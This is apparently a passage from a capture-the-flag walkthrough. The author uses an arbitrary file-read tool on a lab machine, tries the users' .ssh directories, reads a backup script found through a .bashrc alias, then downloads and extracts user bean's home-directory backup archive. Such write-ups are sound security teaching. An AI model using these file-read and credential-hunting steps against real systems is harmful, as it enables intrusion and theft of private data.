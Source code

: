 I’m not able to read anything useful out of `/home/[either user]/.ssh`.

`/home/bean/.bashrc` has an interesting alias defined:

```

alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

```

I’ll read that script:

```

#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp

```

It shows that bean’s home directory is backed up to `/home/bean/Documents/backup/bean_backup_final.tar.gz` with this command.

### Backup

#### Download and Extract

I’m able to get the file :

```

oxdf@hacky$ python read_file.py /home/bean/Documents/backup/bean_backup_final.tar.gz DOWNLOAD              
oxdf@hacky$ file bean_backup_final.tar.gz
bean_backup_final.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 167772320 gzip compressed data, res
erved method, has CRC, was "", from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 167772320

```

Initially it came back corrupted, and I thought by adding the `DOWNLOAD` option to the file read, it might resolve that, but it is still corrupt. Still, I’m able to get a lot out of the file:

```

oxdf@hacky$ tar xf bean_backup_final.tar.gz 

gzip: stdin: unexpected end of file
tar: Child returned status 1
tar: Error is not recoverable: exiting now
oxdf@hacky$ ls
bean_backup_final.tar.gz  bean_backup.tar.gz  time.txt
oxdf@hacky$ tar xf bean_backup.tar.gz 
tar: ./snap/snapd-desktop-integration/current: Cannot create symlink to ‘14’: Operation not permitted
tar: ./.bash_history: Cannot create symlink to ‘/dev/null’: Operation not permitted
tar: ./snap/snapd-desktop-integration/14/.local/share/themes: Cannot create symlink to ‘/snap/snapd-desktop-integration/14/data-dir/themes’: Operation not permitted
tar: ./snap/snapd-desktop-integration/14/.config/gtk-3.0/bookmarks: Cannot create symlink to ‘/home/bean/.config/gtk-3.0/bookmarks’: Operation not permitted
tar: ./snap/snapd-desktop-integration/14/.config/gtk-3.0/settings.ini: Cannot create symlink to ‘/home/bean/.config/gtk-3.0/settings.ini’: Operation not permitted
```